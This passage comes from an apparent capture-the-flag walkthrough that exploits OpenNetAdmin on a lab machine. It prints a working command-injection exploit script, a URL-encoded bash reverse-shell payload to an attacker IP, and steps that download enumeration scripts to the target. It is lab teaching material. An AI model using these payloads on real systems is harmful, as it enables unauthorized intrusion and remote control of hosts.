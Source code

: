 	5. Manual (Better by far)
		Get exploit:
		```
		searchsploit -m exploits/php/webapps/47691.sh && chmod +x 47691.sh
		dos2unix 47691.sh
		```
		
		Exploit Script:
		```
		#!/bin/bash

		URL="${1}"
		while true;do
		 echo -n "$ "; read cmd
		 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
		done
		```
		
		Run exploit:
		```
		./47691.sh http://10.10.10.171/ona/login.php
		```
		
		The script runs an infinite bash loop taking commands and printing the output. The exploit adds an echo before and after the command the user runs and then uses sed to cut out the command output and ignore the rest.
		
		So since a reverse shell is what we want, lets modify the command to create one with bash:
		```
		curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.61%2F42548%200%3E%261'&xajaxargs[]=ping" "http://10.10.10.171/ona/login.php"
		```
		To create the above command, `bash -c 'bash -i >& /dev/tcp/10.10.14.61/42548 0>&'1` was encoded for URLs by [URLencoder](https://www.urlencoder.org/) and placed in the command area. The `-c` argument to bash is necessary so bash parses the decoded command and not the URL encoded version. 
3. Lateral Movement
	1. Linux Enumeration
		1. [`LinEnum.sh`](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
			On Attacker:
			```
			wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
			sudo python3 -m http.server 80
			```
			
			On Target: 
			```
			wget http://10.10.14.61/LinEnum.sh
			chmod +x LinEnum.sh
			./LinEnum.sh -r report -e /tmp/ -t
			```
		2. [`linuxprivchecker.py`](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)
			On Attacker:
			```
			wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py
			sudo python3 -m http.server 80
			```
			